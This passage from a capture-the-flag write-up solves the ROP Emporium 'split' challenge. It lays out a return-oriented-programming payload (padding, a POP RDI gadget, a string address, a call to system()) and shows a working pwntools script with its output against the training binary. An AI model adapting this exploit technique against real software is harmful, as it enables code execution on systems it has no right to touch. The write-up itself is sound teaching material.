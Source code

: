 ``` payload = 40 bytes of junk + Addr of POP RDI gadget + Addr of argument + Call Addr of system() ```
Contriving a reason to ask user for data...
> Thank you!
ROPE{a_placeholder_32byte_flag!}
Segmentation fault (core dumped)
```

Lets try our exploit from ```pwntools```,

```c
ra@moni:~/split$ cat exploit.py
from pwn import *
cat=p64(0x601060)
call_system=p64(0x40074b)
rdi=p64(0x00000000004007c3)
buff=""
buff+='A'*40
buff+=rdi
buff+=cat
buff+=call_system
print(buff)

ra@moni:~/split$ python2 exploit.py | ./split
split by ROP Emporium
x86_64

Contriving a reason to ask user for data...
> Thank you!
ROPE{a_placeholder_32byte_flag!}
Segmentation fault (core dumped)
```

Done! we have completed split (64 bit)


